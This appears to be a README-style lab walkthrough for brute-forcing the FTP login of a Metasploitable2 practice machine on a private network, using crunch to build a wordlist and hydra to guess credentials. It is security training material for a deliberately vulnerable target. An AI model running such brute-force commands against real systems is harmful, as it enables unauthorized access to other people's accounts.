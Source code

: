 # Hack Metacploiable2 vulnarable machine: FTP BruteForce with HYDRA and CRUNDH #


### Tools need to install ###
- FTP
- Hydra
- Crunch
```
sudo apt install ftp
```
```
sudo apt install hydra
```
```
sudo apt install crunch
```
### Steps ###
- Find the metsploitable2 machines IP [Click here to see details](find_ip_ms2.md).
- Check if <b> vsftpd 2.3.4 </b> (port 21) is open with nmap.
- Let the IP is 192.168.56.103
- Check if FTP is working 
```
ftp 192.168.56.103
```
- Give 'msfadmin' as user and password, you should connect. 
- Now to hack the machines , lets we don't have the username and password. 
- Generate wordlist with crunch [click here to see details](wordlist_gen_crunch.md)
```
crunch 8 8 adfimns | grep 'msfadm' > wordlist.txt
```
- Use hydra to bruteforce with the following command
```
hydra -L wordlist.txt  -P wordlist.txt -V -o credential.txt ftp://192.168.56.103
```

- Wait for hydra to finish all the combination and is will save the username and password in <b>credential.txt </b>  file.
- we can see username and password by 
```
cat credential.txt
```




